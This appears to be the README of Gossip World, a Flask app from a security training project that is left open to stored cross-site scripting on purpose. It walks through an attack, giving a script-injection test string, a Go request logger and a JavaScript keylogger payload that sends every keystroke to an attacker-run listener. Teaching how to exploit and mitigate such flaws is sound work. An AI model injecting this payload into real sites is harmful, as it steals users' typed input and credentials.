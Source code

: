 # Gossip World

<p align="center">
    <img src="./images/banner.png"/>
</p>

Gossip World is a simple Flask app that contains an example of multiple Cross-Site Scripting vulnerabilities and its main goal is to describe how a malicious user could exploit them on this purposefully vulnerable app.

## Index

- [Deploy Apps to Codeready/k8s](#deploy-apps-to-codeready)
- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)


## Deploy Apps to Codeready/k8s

Deploy Apps on Openshift/Codeready with 3 project
- devsecops-dev
- devsecops-stage
- devsecops-prod

Before deploy apps, you must deploy mariadb persistant storage in every project.
```sh
cd deployments
oc apply devsecops-dev.yaml
oc apply devsecops-stage.yaml
oc apply devsecops-prod.yaml
```

Access Apps using route [http://flask-devsecops-dev.apps.example.com][App] ! 😆

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a7/gossip-world
```

```sh
make install
```

Then simply visit [localhost:10007][App] ! 😆

## Get to know the app 💄

To properly understand how this application works, you can follow these simple steps:

- Create a new user
- Try leaving a comment on a gossip
- Try creating your gossip!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

#### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that some entries are not sanitized and can be executed on a web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the following text  is used as an input on these fields:

```
<script>alert(1)</script>
```

Searching for a post:
   <img src="./images/attack-1.png" align="center"/>
   <img src="../images/attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="./images/attack-3.png" align="center"/>
   <img src="../images/attack-4.png" align="center"/>

Adding a new post:
   <img src="./images/attack-5.png" align="center"/>
   <img src="./images/attack-6.png" align="center"/>


The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

### 🔥

An attacker may abuse these flaws by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will get all keyboard input from a user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```
   
To run this code simply type the following command in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang): 

```sh
go run main.go
```

Then, the attacker can insert a new post through the **/newgossip** route by using the following code in the text field:

```html
<script>
var k="";
document.onkeypress=function(e) {
   e = e || window.event;
   k+=e.key;
   var i=new Image;
   i.src="http://localhost:1232/"+k;
}
</script>
```

This code implements a keylogger to capture all keyboard input from users and send it to the API created beforehand.

   <img src="./images/attack-7.png" align="center"/>

When a victim accesses the post, the browser will interpret the text between the script tag as code and will execute it secretly. The following image shows the victim typing letters into the page that has been "infected" by the malicious JS:

<img src="./images/attack-8.png" align="center"/>

The attacker now gets all the input on the server log, as shown below: 

<img src="./images/attack-9.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Execute scripts through input fields

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10007
